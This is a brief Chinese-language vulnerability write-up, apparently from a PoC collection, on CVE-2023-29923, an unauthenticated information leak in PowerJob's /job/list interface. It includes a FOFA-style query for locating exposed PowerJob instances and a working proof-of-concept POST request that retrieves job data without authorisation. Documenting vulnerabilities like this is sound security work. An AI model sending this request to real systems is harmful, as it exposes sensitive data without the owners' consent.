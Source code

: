 # PowerJob list 信息泄漏漏洞 CVE-2023-29923

# PowerJob list 信息泄漏漏洞 CVE-2023-29923

## 漏洞描述

PowerJob list接口存在信息泄漏漏洞，攻击者无需通过授权就可以访问授权的接口，获取敏感数据。

## 漏洞影响

```
PowerJob
```

## 网络测绘

```
app="PowerJob"
```

## 漏洞复现

登陆页面

![image-20230424163841725](images/image-20230424163841725.png)

验证POC

```
POST /job/list
Content-Type: application/json

{"appId":1,"index":0,"pageSize":10}
```

![image-20230424163855220](images/image-20230424163855220.png)

